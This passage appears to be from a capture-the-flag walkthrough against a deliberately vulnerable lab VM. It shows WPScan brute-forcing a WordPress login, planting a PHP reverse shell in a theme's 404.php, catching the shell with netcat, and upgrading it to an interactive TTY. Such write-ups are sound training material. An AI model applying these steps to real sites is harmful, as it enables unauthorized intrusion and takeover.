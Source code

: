     [+] Performing password attack on Wp Login against 1 user/s
    [SUCCESS] - c0rrupt3d_brain / 24992499                                                                                                                
    Trying c0rrupt3d_brain / 757575 Time: 00:01:38 <                                                            > (10700 / 14355092)  0.07%  ETA: ??:??:??

    [!] Valid Combinations Found:
    | Username: c0rrupt3d_brain, Password: 24992499

    [!] No WPScan API Token given, as a result vulnerability data has not been output.
    [!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

    [+] Finished: Wed Apr  7 21:55:19 2021
    [+] Requests Done: 10715
    [+] Cached Requests: 38
    [+] Data Sent: 3.719 MB
    [+] Data Received: 48.293 MB
    [+] Memory used: 178.719 MB
    [+] Elapsed time: 00:02:40
                                        


# Exploit 

## Upload _php-reverse-shell.php_

Login with account __c0rrupt3d_brain/24992499__ at http://192.168.56.103/wordpress/wp-admin

Appearance --> Theme Editor --> Select theme _twenty sixteen_ --> change the content of _404.php_  with the content of _php-reverse-shell.php_

## Get reverse shell
   
    curl http://192.168.56.103/wordpress/wp-content/themes/twentysixteen/404.php

    $ nc -lvp 1234
    $ echo $PATH
    /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

## Upgrade shell


    $ python -c "import pty;pty.spawn('/bin/bash')"
    www-data@ubuntu-extermely-vulnerable-m4ch1ine:/$ ^Z
    └─$ stty -a      
    └─$ stty raw -echo
    └─$ fg
    nc -lvp 1234
               reset
    reset: unknown terminal type xterm-256
    Terminal type? xterm-256color
    www-data@ubuntu-extermely-vulnerable-m4ch1ine:/$ export TERM=xterm-256color
    www-data@ubuntu-extermely-vulnerable-m4ch1ine:/$ export SHELL=/bin/bash
    www-data@ubuntu-extermely-vulnerable-m4ch1ine:/$ stty rows 25 columns 129
